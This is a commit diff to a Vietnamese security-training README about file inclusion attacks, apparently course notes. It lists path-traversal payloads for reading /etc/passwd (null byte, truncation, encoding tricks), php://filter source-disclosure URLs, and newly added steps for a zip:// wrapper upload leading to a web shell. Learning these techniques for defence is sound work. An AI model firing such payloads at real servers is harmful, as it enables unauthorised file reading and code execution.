

Before and after one commit to DuongCuc/KCSC-train, a Markdown page: task_10/README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
upload task10

````diff
--- a/task_10/README.md
+++ b/task_10/README.md
@@ -62,10 +62,12 @@ RFI cho phép tin tặc include và thực thi trên máy chủ mục tiêu mộ
 
 * Null Byte Injection
     Thêm ký tự null sau tên tệp giúp vô hiệu hoá phần extension `.php`.
+
     VD: `http://example.com/index.php?file=../../../etc/passwd%00
     `
 * Path and dot truncation
     Hầu hết các phiên bản PHP giới hạn độ dài tên tệp là 4096 bytes. Nếu dài hơn, PHP sẽ cắt bớt phần vượt quá giới hạn. Kẻ tấn công có thể lợi dụng điều này để bỏ qua phần extension `.php`.
+
     VD:
     ```
     http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
@@ -75,6 +77,7 @@ RFI cho phép tin tặc include và thực thi trên máy chủ mục tiêu mộ
     ```
 
 * Encoding
+
     VD:
     ```
     http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
@@ -82,6 +85,7 @@ RFI cho phép tin tặc include và thực thi trên máy chủ mục tiêu mộ
     ```
 
 * Double encoding
+
     VD:
     ```
     http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
@@ -90,6 +94,7 @@ RFI cho phép tin tặc include và thực thi trên máy chủ mục tiêu mộ
 
 * PHP Wrappers
     * PHP Filter
+
     VD:
     ```
     http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
@@ -97,7 +102,12 @@ RFI cho phép tin tặc include và thực thi trên máy chủ mục tiêu mộ
     http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
     http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
     ```
-    Ngoài ra còn có các loại wrappers khác như `PHP Zip`, `PHP Data`, `PHP Expect`.
+    * PHP Zip
+        1. Tạo file chứa mã độc
+        2. Nén file vào file Zip
+        3. Upload file và truy cập vào file với wrappers. VD: `http://example.com/index.php?page=zip://shell.jpg%23payload.php`
+
+Ngoài ra còn có các loại wrappers khác như `PHP Data`, `PHP Expect`.
 
 
 ### 5. Cách phòng chống File Inclusion
````
Also changed, not shown: other parts of task_10/README.md (+112 -0 lines).
